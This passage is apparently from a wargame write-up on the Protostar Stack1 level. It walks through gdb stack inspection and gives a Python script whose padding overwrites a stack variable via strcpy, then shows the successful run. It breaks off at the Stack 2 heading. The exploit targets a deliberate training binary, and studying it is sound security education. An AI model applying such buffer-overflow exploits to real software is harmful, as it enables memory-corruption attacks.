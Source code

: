 ```shell
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave
0x080484d6 <main+114>:  ret
```

It's clear that modified is located at **[esp+0x5c]**, while the two arguments for strcpy are stored at **[esp+0x4]** and **[esp]**. Now, I will set a breakpoint after **strcpy**, at `0x080484a7` to see how our input is stored on the stack.

``` shell
(gdb) break *0x080484a7
(gdb) r AAAAAAAAAAAAAAAAAAAAAAA
Starting program: /opt/protostar/bin/stack1 AAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=2, argv=0xbffff834) at stack1/stack1.c:18
...
(gdb) x/24wx $esp
0xbffff720:     0xbffff73c      0xbffff971      0xb7fff8f8      0xb7f0186e
0xbffff730:     0xb7fd7ff4      0xb7ec6165      0xbffff748      0x41414141
0xbffff740:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff750:     0x00414141      0x080496fc      0xbffff788      0x08048509
0xbffff760:     0xb7fd8304      0xb7fd7ff4      0x080484f0      0xbffff788
0xbffff770:     0xb7ec6365      0xb7ff1040      0x080484fb      0x00000000
(gdb) x/wx $esp+0x5c
0xbffff77c:     0x00000000
```

Just by observing the stack, we have to padding 16 * 4 bytes since our input starts from `0xbffff73c`, and the last 4 bytes is `0x61626364` in little-endian format.

Here is my script for this level:

``` python
import struct

padding = "A" * 16 * 4
modified = struct.pack("I", 0x61626364)

print padding + modified
```

And we solve this level. YAY ^^

``` shell
user@protostar:~$ python script.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
user@protostar:~$ /opt/protostar/bin/stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```

## Stack 2

Description:

